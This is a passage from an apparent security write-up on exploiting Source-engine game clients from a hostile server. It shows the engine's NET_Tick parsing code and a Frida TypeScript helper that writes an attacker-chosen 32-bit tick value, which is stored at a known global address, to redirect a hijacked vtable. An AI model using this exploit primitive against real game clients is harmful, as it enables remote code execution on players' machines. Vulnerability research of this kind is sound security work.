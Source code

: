 But where are we going to point the vtable? Well, we don't need much, just a location of a known place the server can control so we can write an address we want to execute. I did some searching and came across this:

```cpp
bool NET_Tick::ReadFromBuffer( bf_read &buffer )
{
	VPROF( "NET_Tick::ReadFromBuffer" );

	m_nTick = buffer.ReadLong();
#if PROTOCOL_VERSION > 10
	m_flHostFrameTime = (float)buffer.ReadUBitLong( 16 ) / NET_TICK_SCALEUP;
	m_flHostFrameTimeStdDeviation = (float)buffer.ReadUBitLong( 16 ) / NET_TICK_SCALEUP;
#endif
	return !buffer.IsOverflowed();
}
```

As you might see, `m_nTick` is controlled by the contents of the `NET_Tick` packet directly. This means we can assign this to an arbitrary 32-bit value. It just so happens that this value is stored at a global as well! After some scripting up in Frida, I confirmed that this is indeed completely controllable by the `NET_Tick` packet from the server:
{:refdef: style="text-align: center;"}
![image-20200513141444074](/assets/image-20200513141444074.png)
{: refdef}
The code to send this packet with my Frida bindings is quite simple too:

```typescript
function SetClientTick(bf: bf_write, value: NativePointer) {
    bf.WriteUBitLong(net_Tick, NETMSG_BITS)

    // Tick count (Stored in m_ClientGlobalVariables->tickcount)
    bf.WriteLong(value.toInt32())

    // Write m_flHostFrameTime -> 1
    bf.WriteUBitLong(1, 16);

    // Write m_flHostFrameTimeStdDeviation -> 1
    bf.WriteUBitLong(1, 16);
}
```
